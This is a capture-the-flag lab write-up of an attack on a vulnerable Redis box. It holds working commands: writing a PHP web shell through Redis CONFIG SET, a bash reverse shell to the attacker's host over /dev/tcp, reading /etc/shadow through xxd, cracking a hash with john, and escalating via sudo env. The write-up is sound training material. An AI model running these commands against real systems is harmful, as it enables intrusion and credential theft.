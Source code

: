 #CTF 
_Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!_

## Recon

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.31 seconds
```

I also run gobuster with
```
gobuster dir -u http://10.10.1.109/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 60
```
```
/.html                (Status: 403) [Size: 276]
/.php                 (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 11321]
```


## Access

To connect to the redis server is type
`redis-cli -h 10.10.1.109`
and the with `info` I get a lot of information about the machine

I don't know how to exploit a redis server so I searched online.
I found a clever way to exploit it with a reverse shell .
I know that the machine has a 80 port.
So inside the redis server I type
`CONFIG SET dir /var/www/html`
`CONFIG SET dbfilename shell.php`
`set test "<?php system($_GET['cmd']) ?>"`
`save`

And then If I navigate to `10.10.1.109/shell.php` I get this
```
REDIS0009� redis-ver6.0.7� redis-bits�@�ctime��q�d�used-mem�`��aof-preamble���test�� ~%}��w
```

I alter it a bit and go to `view-source:http://10.10.1.109/shell.php?cmd=cat%20/etc/passwd`
and get
```
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
vianka:x:1000:1000:Res,,,:/home/vianka:/bin/bash
```

So next I alter my file on the redis server.
I follow the commands as above but on the payload I type
```
set test "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/[local ip]/4444 0>&1'\"); ?>"
```

I open a netcat connection to 4444 and reload the tab and I catch the connection!

I navigate to `home\vianka` and find my flag `thm{red1s_rce_w1thout_credent1als}`

## Priv Esc

I found this one
```
find` `/ -user root -perm -4000 -``exec` `ls` `-ldb {} \; 2>``/dev/null
```

And I notice the xxd, I gtfo bins for sudo
```
LFILE=/etc/shadow 
xxd "$LFILE" | xxd -r
```

And get 

```
root:!:18507:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18506:0:99999:7:::
uuidd:*:18506:0:99999:7:::
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

I take the hashed password from vianka and I save it in a file
I use john to crack it and I get
`beautiful1`

So now I know the creds to do the switch , but I need a stable shell to do it.
So I spawn on with `python -c 'import pty; pty.spawn("/bin/sh")'`

I sudo -l and get
```
Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

I search again on GTFO bins for env_reset and mail_badpass and find this
```
sudo env /bin/sh
```

And I get root!
The flag is
`thm{xxd_pr1v_escalat1on}`
